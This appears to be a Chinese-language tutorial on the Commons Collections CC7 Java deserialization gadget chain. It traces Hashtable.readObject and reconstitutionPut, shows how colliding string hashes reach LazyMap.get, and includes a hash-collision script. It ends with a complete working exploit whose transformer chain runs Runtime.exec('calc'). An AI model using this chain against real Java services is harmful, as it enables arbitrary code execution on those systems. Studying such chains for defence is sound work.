









##  前言

CC7是另一种方法调用LazyMap.get()

JDK没有限制，CommonsCollections 3.1 - 3.2.1

##  分析

这个链子也不是特别难的，因为第一次学，慢慢分析一下。

链子是从`HashTable`开始的，直接看`readObject`

```java
private void readObject(java.io.ObjectInputStream s)
         throws IOException, ClassNotFoundException
    {
        // Read in the threshold and loadFactor
        s.defaultReadObject();

        // Validate loadFactor (ignore threshold - it will be re-computed)
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new StreamCorruptedException("Illegal Load: " + loadFactor);

        // Read the original length of the array and number of elements
        int origlength = s.readInt();
        int elements = s.readInt();

        // Validate # of elements
        if (elements < 0)
            throw new StreamCorruptedException("Illegal # of Elements: " + elements);

        // Clamp original length to be more than elements / loadFactor
        // (this is the invariant enforced with auto-growth)
        origlength = Math.max(origlength, (int)(elements / loadFactor) + 1);

        // Compute new length with a bit of room 5% + 3 to grow but
        // no larger than the clamped original length.  Make the length
        // odd if it's large enough, this helps distribute the entries.
        // Guard against the length ending up zero, that's not valid.
        int length = (int)((elements + elements / 20) / loadFactor) + 3;
        if (length > elements && (length & 1) == 0)
            length--;
        length = Math.min(length, origlength);

        if (length < 0) { // overflow
            length = origlength;
        }

        // Check Map.Entry[].class since it's the nearest public type to
        // what we're actually creating.
        SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, length);
        table = new Entry<?,?>[length];
        threshold = (int)Math.min(length * loadFactor, MAX_ARRAY_SIZE + 1);
        count = 0;

        // Read the number of elements and then all the key/value objects
        for (; elements > 0; elements--) {
            @SuppressWarnings("unchecked")
                K key = (K)s.readObject();
            @SuppressWarnings("unchecked")
                V value = (V)s.readObject();
            // sync is eliminated for performance
            reconstitutionPut(table, key, value);
        }
    }
```

最后的几行代码是最关键的

我们继续看`reconstitutionPut`函数

```java
private void reconstitutionPut(Entry<?,?>[] tab, K key, V value)
    throws StreamCorruptedException
{
    if (value == null) {
        throw new java.io.StreamCorruptedException();
    }
    // Makes sure the key is not already in the hashtable.
    // This should not happen in deserialized version.
    int hash = key.hashCode();
    int index = (hash & 0x7FFFFFFF) % tab.length;
    //可以进入equals函数
    for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) {
        if ((e.hash == hash) && e.key.equals(key)) {
            throw new java.io.StreamCorruptedException();
        }
    }
    // Creates the new entry.
    @SuppressWarnings("unchecked")
        Entry<K,V> e = (Entry<K,V>)tab[index];
    tab[index] = new Entry<>(hash, key, value, e);
    count++;
}
```

这个hash与之前某个存入的相等那就会调用其`equals`方法，这里看了网上`payload`是让这个`e.key`为一个`Lazymap`对象，可以看到`LazyMap`本身没有equals方法

看他的父类：




这个`this.map`是传入的的`hashMap`，然后进入hashMap的父类

这个`Object o`是`LazyMap`,然后就调用了`get`函数




**hash相等的构造**





传入的yy和zZ都是两位数，所以计算两次

- yy：第一次y的ascii121，第二次31*121+121=3872
- zZ：第一次z的ascii122，第二次31*122+90=3872

只要满足下面脚本的，都可以

```python
import string
letter = string.ascii_uppercase+string.ascii_lowercase


def hashcode(string_expected):
    return 31 * ord(string_expected[0]) + ord(string_expected[1])


for i in letter:
    for j in letter:
        for k in letter:
            for l in letter:
                str1 = i+j
                str2 = k+l
                if str1 != str2:
                    if hashcode(str1) == hashcode(str2):
                        print(hashcode(str1), str1, str2, sep=" ")


```

**为什么payload中有一个lazyMap2.remove("yy")**

我自己调试了一下










直接触发了这个`get`函数进入了LazyMap中



##  payload

```java
package cc.cc7;

import cc.reflectPackage.Value;
import cc.unserializePackage.Unserialize;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class payload {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{
                                String.class,
                                Class[].class
                        },
                        new Object[]{
                                "getRuntime",
                                new Class[0]
                        }
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{
                                Object.class,
                                Object[].class
                        },
                        new Object[]{
                                null,
                                new Object[0]
                        }
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{
                                String.class
                        },
                        new Object[]{
                                "calc"
                        }
                )

        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{});
        Map lazyMap1 = LazyMap.decorate(new HashMap(), chainedTransformer);
        Map lazyMap2 = LazyMap.decorate(new HashMap(), chainedTransformer);

        lazyMap1.put("uZ", 1);
        lazyMap2.put("ty", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        Value.setValue(chainedTransformer, "iTransformers", transformers);
        lazyMap2.remove("uZ");

        Unserialize.unserialize(hashtable);
    }
}


```

##  参考链接

https://ho1aas.blog.csdn.net/article/details/123458271?spm=1001.2014.3001.5502